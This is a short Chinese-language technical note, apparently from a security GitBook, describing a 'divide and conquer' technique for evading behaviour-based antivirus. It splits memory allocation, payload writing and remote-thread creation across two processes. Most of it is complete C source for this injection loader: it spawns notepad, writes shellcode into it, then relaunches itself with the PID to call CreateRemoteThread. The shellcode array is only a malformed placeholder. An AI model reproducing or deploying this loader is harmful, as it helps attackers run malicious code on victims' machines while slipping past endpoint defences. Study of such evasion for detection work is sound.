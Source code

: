 # Divide and Conquer

##  简介

看到了一种比较有意思的手法，现在的杀软会关注函数的执行链， [theevilbit](https://gist.github.com/theevilbit)公开了一种通过不同进程分离执行API，绕过基于行为的AV检测。

常见的行为检测会有监控堆栈的调用链和hookapi记录行为，这种分离执行方式都能绕过。

## 流程

1. 创建傀儡进程
2. 向傀儡进程写入payload
3. 创建同文件进程传入pid
4. 通过pid打开傀儡句柄
5. 创建远程线程

## 代码

```text


#include <stdio.h>
#include <windows.h>
unsigned char shellcode[] =
"\xfc78\x00";

int main(int argc, char* argv[]) {

    if (argv[1]==NULL)
    {
        STARTUPINFOA si = { 0 };
        si.cb = sizeof(si);
        PROCESS_INFORMATION pi = { 0 };

        CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
        VirtualAllocEx(pi.hProcess, (PVOID)0x0000480000000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, (PVOID)0x0000480000000000, shellcode, sizeof(shellcode), NULL);

        char cmd[MAX_PATH] = {0};
        wsprintfA(cmd, "%s %d", argv[0], pi.dwProcessId);

        CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
    }
    else
    {
        HANDLE hProcess =  OpenProcess(PROCESS_ALL_ACCESS, NULL, atoi(argv[1]));
        CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)0x0000480000000000, 0, 0, 0);
    }
    
    
    return 0;
}

```

![](../.gitbook/assets/image%20%28241%29.png)

## 优化

再传入ppid\(略略略\)。

